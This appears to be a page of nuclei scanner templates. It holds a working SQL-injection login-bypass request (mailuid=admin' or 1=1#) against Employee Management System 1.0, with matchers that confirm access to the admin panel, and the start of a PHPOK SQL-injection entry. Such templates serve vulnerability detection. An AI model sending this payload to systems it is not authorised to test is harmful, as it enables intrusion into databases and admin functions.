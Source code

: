 - Employee Management System 1.0 contains a SQL injection vulnerability via the username parameter. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - ems,sqli,cms,auth-bypass,edb

## Requests

### Step - 1

```
POST /process/aprocess.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

mailuid=admin' or 1=1#&pwd=nuclei&login-submit=Login

```

### Matchers

**Type - word**

- part - body
- words
  1. Admin Panel
  2. Log Out
  3. Employee Management System
- condition - and

**Type - status**

- status
  1. 200

---

# PHPOK - SQL Injection

## Description

- PHPOK contains a SQL injection vulnerability via a GET request. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - phpok,sqli

## Requests

- Method - GET
